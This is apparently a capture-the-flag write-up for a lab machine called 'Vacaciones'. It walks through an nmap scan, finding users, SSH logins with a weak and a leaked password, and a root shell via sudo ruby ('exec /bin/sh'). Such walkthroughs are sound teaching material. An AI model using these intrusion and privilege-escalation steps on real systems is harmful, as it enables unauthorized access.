





# Vacaciones

## Port Enumeration

We begin our discovery phase using the Nmap tool. Our scan reveals the following open ports:
```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page

First, we'll inspect the web page for any clues and use the Gobuster tool to uncover any suspicious files or directories.



We discover two potential users: Juan and Camilo.


Our scan doesn't reveal any interesting files.

## Intrusion
We attempt to access the SSH service using the discovered usernames. We find a password for the user Camilo:

```ruby
user: Camilo
passwd: password1
```



With these credentials, we successfully access the SSH service.

## Privilege Escalation

To escalate privileges, we first try the `sudo -l` command to identify binaries we can execute. However, this option is not available for this user.



We then search for interesting files that might provide clues. Using the following command, we discover a suspicious file:

```ruby
find / -name "*.txt"
```

The file is named correo.txt.




```ruby
$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
$ 

```


This appears to be Juan's password for the SSH service. We attempt to log in as Juan.

After successfully accessing Juan's account, we check which binaries we can execute with this user:

```ruby
$ sudo -l
Matching Defaults entries for juan on 130b792b2d39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 130b792b2d39:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Finally, using GTFObins, we determine how to escalate to root by executing the following command:

```ruby
sudo -u root /usr/bin/ruby -e 'exec "/bin/sh"'
```


